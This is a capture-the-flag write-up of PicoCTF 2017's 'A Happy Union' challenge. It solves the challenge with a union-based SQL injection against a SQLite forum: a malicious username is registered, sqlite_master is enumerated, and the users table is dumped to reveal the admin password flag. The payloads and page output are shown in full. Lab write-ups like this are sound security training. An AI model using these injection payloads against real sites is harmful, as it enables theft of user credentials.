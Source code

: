 # PicoCTF_2017: A Happy Union

**Category:** Web Exploitation
**Points:** 110
**Description:**

>I really need access to [website](http://shell2017.picoctf.com:23598/), but I forgot my password and there is no reset. Can you help? I like lite sql :)

**Hint:**

>A SQL union allows a single query to select values from multiples tables.

## Write-up

I really need access to website, but I forgot my password and there is no reset. Can you help? I like lite sql :)

```html
w3ndige@W3ndige ~> curl http://shell2017.picoctf.com:41558/
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Top Notch Forum</title>
    <link href="/static/css/bootstrap.min.css" rel="stylesheet">
    <link href="/static/css/style.css" rel="stylesheet">  
  </head>
    <body>
        <div class="container">
          <div class="row">
            <div class="text-center">
                <h1> Welcome to the Super Poster Forum! </h1>
            </div>
        </div>
        <div class="row">
            <br />
            <br />
            <br />
            <br />
        </div>
        <div class="row">
            <div class="col-md-12 text-center">
                <a href="/login" class="btn btn-primary btn-md" role="button">Login</a>
                <a href="/register" class="btn btn-primary btn-md" role="button">Register</a>
            </div>
        </div>
      </div>
        <script src="/static/js/bootstrap.min.js"></script>
        <script src="/static/js/jquery.min.js"></script>
        <script type="text/javascript" src="/static/js/client.js"></script>

    </body>
</html>⏎         
```

A happy union? It has to do something with  **union sql injection**. Let's firstly check, how bad can we go when registering a new user.

```html
username: ' OR 1 = 1
password: asd
```

Now, after logging in, we can clearly see the SQL query which is used to take out the data from the database. And yeah, our input isn't sanitized at all, so we're clear to create  **UNION**  injection.

```sql
select id, user, post from posts where user = '' OR 1 = 1';
```

Our first step would be creating a query that will tell us names of the tables in the database. Since we know it's  **sqlite**  it won't be that hard.

```sql
' union SELECT null, null, name FROM sqlite_master;--
```

We have to use 2  **null**  columns, since the base query is taking out content of 3 columns, and so we have to in the union query. Dashes in the end will comment out everything afer them, just in case.

```html
<div class="row">
     <div class="text-center">
         <h1> Welcome &#39; union SELECT null, null, name FROM sqlite_master;-- to the Super Poster Forum! </h1>
     </div>
 </div>

 <div class="row">
     <div class="text-center">
         <h3> The current posts are:</h3>
     </div>
 </div>
 <div class="row">
     <table class="table">
         <thead>
         <tr>
             <th>Post ID</th>
             <th>User</th>
             <th>Value</th>
         </tr>
         </thead>
         </tbody>
                 <tr><td>None </td><td> None</td> <td> posts</td></tr>

                 <tr><td>None </td><td> None</td> <td> sqlite_sequence</td></tr>

                 <tr><td>None </td><td> None</td> <td> users</td></tr>
         </tbody>
     </table>
 </div>
```

Great, we have  **users**  table, from which we can now try to get the flag. Here we go with the last query.

```sql
' union SELECT user, pass, null FROM users;--
```

User, pass column names? Let's check that out.

```html
<div class="row">
    <div class="text-center">
        <h1> Welcome &#39; union SELECT user, pass, null FROM users;-- to the Super Poster Forum! </h1>
    </div>
</div>
<div class="row">
    <div class="text-center">
        <h3> The current posts are:</h3>
    </div>
</div>
<div class="row">
    <table class="table">
        <thead>
        <tr>
            <th>Post ID</th>
            <th>User</th>
            <th>Value</th>
        </tr>
        </thead>
        </tbody>
                <tr><td>&#39; union SELECT user, pass, null FROM users;-- </td><td> asd</td> <td> None</td></tr>

                <tr><td>admin </td><td> flag{union?_why_not_onion_b80f530ed953ccdd0dfc6f2456dc7d0e}</td> <td> None</td></tr>
        </tbody>
    </table>
</div>
```

Great SQL Injection challenge!
<!--stackedit_data:
eyJoaXN0b3J5IjpbNjczNTI1MTMzXX0=
-->
